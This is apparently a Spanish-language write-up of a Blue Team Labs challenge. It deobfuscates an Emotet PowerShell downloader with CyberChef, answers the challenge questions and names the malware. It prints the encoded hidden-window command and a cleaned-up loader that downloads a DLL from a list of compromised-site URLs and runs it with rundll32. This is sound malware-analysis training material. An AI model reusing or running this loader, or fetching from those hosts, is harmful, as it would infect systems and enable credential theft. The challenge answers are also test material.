






Primero, podemos echar un vistazo al primer script: 

```bash 
┌──(kali㉿kali)-[~/challenges/power/BTLO PowerShell Analysis] 
└─$ cat ps_script.txt POwersheLL  -w hidden -ENCOD                 IABzAEUAdAAgAE0ASwB1ACAAKAAgAFsAVABZAFAAZQBdACgAIgB7ADAAfQB7ADEAfQB7ADIAfQB7ADQAfQB7ADMAfQAiACAALQBGACAAJwBTAFkAcwBUACcALAAnAGUATQAuACcALAAnAGkAbwAuAEQASQAnACwAJwBPAFIAWQAnACwAJwByAEUAQwB0ACcAKQAgACkAOwAgACAAIAAgAFMAZQBUAC0AaQBUAEUATQAgACAAKAAnAHYAYQBSACcAKwAnAEkAYQBiAEwARQAnACsAJwA6AG0AQgB1ACcAKQAgACgAIAAgAFsAV
``` 

Claramente está ofuscado, así que vamos a usar cyberchef para ver de qué se trata. Usamos el ingrediente "magic" para intentar descubrír el método de ofuscación: 


 

Nos sugiere que está encodeado en base64 con UTF-16LE(1200), así que lo agregamos a la receta. 



Aún está ofuscado, así que observando parece que podemos eliminar las partes que nos molestan den código, en ete caso los siguientes caracteres: ""+()'',{}\`



Ahora si vemos detenidamente observamos que la cadena `]anw[3s` aparece antes de `://`, así que podemos asumir que esto se trata de la cadena `http`, así que remplazamos esto: 



Ahora, podemos ver que en la siguiente parte subrayada tenemos lo que parece ser una ruta, así que hacemos lo que se indica al final, remplazar `UOH` y añadimos un salto de linea para cada `;`. 



Y finalmente tenemos el script completamente desofuscado: 

```powershell
 sEt MKu  [TYPe]01243 -F SYsTeM.io.DIORYrECt 
    SeT-iTEM  vaRIabLE:mBu   [TYPe]680345271 -fSteMGerMa.net.seRVIcepOintsNAY
 $ErrorActionPreference = SilentlyContinue
$Cvmmq4o=$Q26L  [char]64  $E16H
$J16J=N_0P
 DIr VariabLE:Mku  .VaLUe::cREAtedIRECTORy$HOME  0Db_bh300Yf5be5g0 -F [chAR]92
$C39Y=U68S
   vARiaBLe  mbu  -VAlueoN  ::sEcuRITYproTocol = Tls12
$F35I=I4_B
$Swrp6tc = A69S
$X27H=C33O
$Imd1yck=$HOME/Db_bh30/Yf5be5g/.RePlACe/[StrInG][chAr]92$Swrp6tc.dll
$K47V=R49G
$B9fhbyv=https://admintk.com/wp-admin/L/@https://mikegeerinck.com/c/YYsa/@http://freelancerwebdesignerhyderabad.com/cgi-bin/S/@http://etdog.com/wp-content/nu/@https://www.hintup.com.br/wp-content/dE/@http://www.stmarouns.nsw.edu.au/paypal/b8G/@http://wm.mcdevelop.net/content/6F2gd/.REplACehttp[array]sdswhttp3d[1].sPLIT$C83R  $Cvmmq4o  $F10Q
$Q52M=P05K
foreach $Bm5pw6z in $B9fhbyvtry&New-Object SysTem.nEt.WEBcLIeNT.doWNlOaDFIlE$Bm5pw6z $Imd1yck
$Z10L=A92Q
If &Get-Item $Imd1yck.lenGTH -ge 35698 &rundll32 $Imd1yckControl_RunDLL.TOStRiNG
$R65I=Z09B
break
$K7_H=F12Ucatch$W54I=V95O
```

Así que pasamos a las preguntas. 

-------

What security protocol is being used for the communication with a malicious domain?

Para responder a esto podemos fijarnos en la siguiente linea: 

`   vARiaBLe  mbu  -VAlueoN  ::sEcuRITYproTocol = Tls12`

Se usa TLS, y sabiendo que al momento en el que escribo esto TLS está en la verisión 1.3, podemos afirmar que se trata de `TLS 1.2`. 

--------


What directory does the obfuscated PowerShell create? (Starting from \HOME\\) 

Podemos fijarnos en la siguiente línea: 

`$Imd1yck=$HOME/Db_bh30/Yf5be5g/.RePlACe/[StrInG][chAr]92$Swrp6tc.dll`

Así que pasando al formato que usa Windows, podemos afirmar que se trata del directorio `\HOME\Db_bh30\Yf5be5g`

-------

What file is being downloaded (full name)?

Con la pregunta anterior podemos contestar esta, se descarga un `.dll`: `A69S,dll`

------

What is used to execute the downloaded file?

Podemos fijarnos en la siguiente línea: 

`If &Get-Item $Imd1yck.lenGTH -ge 35698 &rundll32 $Imd1yckControl_RunDLL.TOStRiNG`

> rundll32.exe es una utilidad legítima de Windows que sirve para ejecutar funciones exportadas desde librerías dinámicas (archivos .DLL) como si fueran programas.

Explicando un poco el script: 

- Usa Get-Item para obtener el archivo recién descargado.
- Comprueba que su tamaño (Length) sea mayor o igual a 35.698 bytes (≈ 35 KB), esto como validación para asegurarse de que el archivo no esté corrupto o incompleto.
Ejecuta rundll32.exe.
- Pasa como parámetro el archivo descargado ($Imd1yck, la DLL maliciosa).
- El nombre de la función Control_RunDLL que debe ejecutarse dentro de esa DLL.
Esto carga y ejecuta la función maliciosa desde la DLL.

--------

What is the domain name of the URI ending in ‘/6F2gd/’?

Fijándonos en la lista de URL's, podemosver que se trata de `www.mcdevelop.net`

--------

Based on the analysis of the obfuscated code, what is the name of the malware?

Para esto podemos buscar por palabras clave como `A69S.dll`. 



Emotet es un tipo de malware bancario que, con el tiempo, evolucionó a una botnet y a una plataforma de distribución de otros malware. Fue detectado por primera vez en 2014, originalmente diseñado para robar credenciales bancarias, pero después se convirtió en un loader altamente modular capaz de instalar ransomware, troyanos y otros payloads maliciosos en los sistemas infectados.

